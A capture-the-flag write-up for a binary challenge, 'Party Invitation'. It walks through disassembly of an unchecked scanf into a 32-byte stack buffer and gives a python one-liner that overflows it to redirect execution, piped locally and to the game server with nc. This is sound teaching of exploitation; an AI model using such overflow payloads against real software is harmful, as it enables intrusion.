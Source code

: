 # Party Invitation

## Question Text

There's an awesome that's going to go down next week. 

Created by Noans

## Distribution
AwesomeParty `SHA1: 08797f1fd4473e8d09d64efda3ca429ea0d9afc0`

## Solution
1. Do an objdump on `AwesomeParty` with the command `objdump -d AwesomeParty`.
2. The following parts of from the `objdump` should be studied:  
```
0000000000400586 <check>:
400586:	55                   	push   %rbp
400587:	48 89 e5             	mov    %rsp,%rbp
40058a:	48 83 ec 20          	sub    $0x20,%rsp
40058e:	48 8d 45 e0          	lea    -0x20(%rbp),%rax
400592:	48 89 c6             	mov    %rax,%rsi
400595:	bf 78 06 40 00       	mov    $0x400678,%edi
40059a:	b8 00 00 00 00       	mov    $0x0,%eax
40059f:	e8 cc fe ff ff       	callq  400470 <__isoc99_scanf@plt>
4005a4:	bf 7b 06 40 00       	mov    $0x40067b,%edi
4005a9:	e8 a2 fe ff ff       	callq  400450 <puts@plt>
4005ae:	90                   	nop
4005af:	c9                   	leaveq
4005b0:	c3                   	retq
```
Where the third line tells us 32 bytes is reserved for a variable.
3. Derive that one needs to override 32 bytes + rbp to overwrite return address.
4. Also derive address of `awesome` function is `4005b1`.

Final command to exploit local program assuming machine uses little-endian:  
`python -c 'print "a" * 40 + "\xb1\x05\x40"' | ./AwesomeParty`

In order to get the flag, players have to pipe the output to the game server:  
`python -c 'print "a" * 40 + "\xb1\x05\x40"' | nc play.spgame.site 50000`

## Recommended Reads
* https://dhavalkapil.com/blogs/Buffer-Overflow-Exploit/
* https://eli.thegreenplace.net/2011/09/06/stack-frame-layout-on-x86-64